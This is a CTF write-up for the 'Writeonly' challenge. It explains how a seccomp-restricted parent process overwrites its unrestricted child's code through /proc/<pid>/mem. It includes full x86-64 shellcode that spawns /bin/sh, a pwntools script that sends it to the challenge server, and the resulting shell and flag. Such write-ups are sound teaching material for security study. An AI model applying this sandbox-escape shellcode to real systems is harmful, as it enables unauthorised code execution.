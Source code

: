 # Writeonly

**Problem Description:**

> This sandbox executes any shellcode you send. But thanks to seccomp, you won't be able to read /home/user/flag.<br>
>
> [Attachment](./0b7877f4d70435dae7d7585532c5fa96ea2cadb0aa8e35be371b8e575d2ecd51ad6d2588a7e2493ff048a541610381b1b284917a820673cce108ea107836d238)<br>
>
> `writeonly.2020.ctfcompetition.com 1337`

## Solution

I got tired of running `file` on the attachment and figured it'd be a `zip` and just unzipped it. There were three files:

- [Makefile](./Makefile)
- [chal.c](./chal.c)
- [chal](./chal)

Since the source code was given, I figured I'd take a look at it. The very second function looked rather interesting:

```c
void setup_seccomp() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
  ...
  ret |= seccomp_load(ctx);
  if (ret) {
    exit(1);
  }
}
```

Looks like an inclusion list for syscalls, and as the description hinted, `read` wasn't one of them :(

Heading down a bit, we see the following:

```c
void check_flag() {
  while (1) {
    char buf[4] = "";
    int fd = check(open("/home/user/flag", O_RDONLY), "open(flag)");
    if (read(fd, buf, sizeof(buf)) != sizeof(buf)) {
      err(1, "read(flag)");
    }
    close(fd);
    if (memcmp(buf, "CTF{", sizeof(buf)) != 0) {
      errx(1, "flag doesn't start with CTF{");
    }
    sleep(1);
  }
}

int main(int argc, char *argv[]) {
  pid_t pid = check(fork(), "fork");
  if (!pid) {
    while (1) {
      check_flag();
    }
    return 0;
  }

  printf("[DEBUG] child pid: %d\n", pid);
  void_fn sc = read_shellcode();
  setup_seccomp();
  sc();

  return 0;
}
```

So, the program `fork`s itself into a parent and child. The parent:

1. Prints the child's PID
2. Reads the shellcode from `stdin`
3. Sets up seccomp
4. Runs the shellcode

Meanwhile, the child:

1. Infinitely loops, calling `check_flag` each iteration. 
2. `check_flag`, also infinitely loops and reads and compares the first 4 bytes of the flag every second...

Eventually, I noticed the child will never call `setup_seccomp` and can thus call any syscall it desires (which is why, it is able to call `read` in `check_flag`). Furthermore, the child PID was also being printed out by the parent. Thus, our shellcode must most likely tamper with the child somehow to read the flag.<sup name="rn1">[[1]](#fn1)</sup>

However, I was at a loss on how to progress, as there seemed to be no way for us to interact with the child, no IPC, nothing. Breadsticks came in clutch, and realized that we could write to `/proc/<pid>/mem`. So, I wrote the following [snippet](./exploit.asm), to make the parent overwrite some instructions in the child's `check_flag` to spawn a shell:<sup name="rn2">[[2]](#fn2)</sup>

```assembly
bits 64

write equ 1
open equ 2
lseek equ 8
execve equ 59
wait4 equ 61
O_WRONLY equ 1
SEEK_SET equ 0
snprintf equ 47e660h ; thanks for no PIE and linking snprintf
patch_offset equ 40223ah ; check_flag+8 (start of while loop body)

main:
    push rbp ; snprintf needs stack to be aligned, so we push something
    ; snprintf(child_mem_path_buf, sizeof(child_mem_path_buf), "/proc/%d/mem", pid)
    mov rax, snprintf
    lea rdi, [rel child_mem_path_buf]
    mov rsi, child_mem_path_buf_size
    lea rdx, [rel child_mem_path_fmt]
    mov ecx, DWORD [rbp-4] ; get pid from the stack
    call rax

    ; open(child_mem_path_buf, O_WRONLY)
    mov rax, open
    lea rdi, [rel child_mem_path_buf]
    mov rsi, O_WRONLY
    syscall

    mov r12, rax ; backup fd into r12
    ; lseek(fd, patch_offset, SEEK_SET)
    mov rax, lseek
    mov rdi, r12
    mov rsi, patch_offset
    mov rdx, SEEK_SET
    syscall

    ; write(fd, payload, payload_len)
    mov rax, write
    mov rdi, r12
    lea rsi, [rel payload]
    mov rdx, payload_len
    syscall

    infinite: jmp infinite ; for some reason this is needed for remote
    leave
    ret
    child_mem_path_fmt db "/proc/%d/mem", 0h
    child_mem_path_buf times 22 db 0h
    child_mem_path_buf_size equ $-child_mem_path_buf

payload:
    ; execve("/bin/sh", NULL, NULL);
    mov rax, execve
    lea rdi, [rel sh]
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ret
    sh db "/bin/sh", 0h

payload_len equ $-payload
```

I also came up with the following [script](./solve.py) to assemble and send the shellcode:

```python
from subprocess import run
from pwn import remote

run(["nasm", "exploit.asm"], check=True)
r = remote('writeonly.2020.ctfcompetition.com', 1337)
with open('exploit', 'rb') as f:
    payload = f.read()
    r.sendline(str(len(payload)))
    r.sendline(payload)
    r.interactive()
```

Running the above script:

```bash
$ python3 solve.py
[+] Opening connection to writeonly.2020.ctfcompetition.com on port 1337: Done
[*] Switching to interactive mode
[DEBUG] child pid: 2
shellcode length? reading 162 bytes of shellcode.
$ cat /home/user/flag
CTF{why_read_when_you_can_write}
```

## Footnotes

<a name="fn1" href="#rn1">[1]:</a> Upon saying a slightly different version of this sentence out loud to breadsticks, I realized exactly how ridiculous it sounds when interpreted without context...
<a name="fn2" href="#rn2">[2]:</a> The `snprintf` part of the shellcode was not necessary. I could have instead read `stdout` and crafted the shellcode at runtime using pwntools' `asm` function (it even recognizes constants like `SYS_open` too). I only came to know of this later through breadsticks :(